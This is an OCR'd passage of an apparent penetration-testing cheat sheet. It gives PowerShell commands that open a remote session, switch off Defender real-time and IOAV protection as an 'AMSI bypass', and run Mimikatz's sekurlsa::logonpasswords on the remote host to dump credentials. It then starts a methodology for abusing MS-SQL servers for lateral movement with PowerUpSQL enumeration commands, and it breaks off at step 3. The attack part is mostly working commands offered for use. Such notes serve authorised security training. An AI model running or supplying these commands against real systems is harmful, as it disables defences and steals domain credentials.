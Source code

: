 ```powershell
#Create a session for remoting system
$sess = New-PSSession -ComputerName <computer-name>
#Bypass AMSI
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; whoami} -Session $sess
#Locally load mimikatz on your own system
Import-Module .\Invoke-Mimikatz.ps1
#Execute locally loaded functions remoting system
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz -command '"sekurlsa::logonpasswords"'} -Session $sess
```

# <span style="color:lightblue">MS-SQL Enumeration - Part 1</span>

* MS SQL servers are generally deployed in plenty in a Windows domain.
* SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

For importing the script use the following command

```powershell
Import-Module .\PowerUpSQL.psd1
```

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Check the SPN's
- [x]  2. Check which SPN's you have access to
- [x] 3. Check the Privileges you have of the above filtered SPN's
- [x] 4. Keep note of the **Instance-Name**, **ServicePrincipalName** and the **DomainAccount-Name**
- [x] 5. If you find any service with *higher privileges* continue below to abuse it

## <span style="color:lightgreen">PowerUpSQL Enumeration</span>

### <span style="color:#F1C232">1. Enumerate SPN</span>

```powershell
Get-SQLInstanceDomain
```

### <span style="color:#F1C232">2. Check Access</span>

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

### <span style="color:#F1C232">3. Check Privileges / Gather Infromation</span>

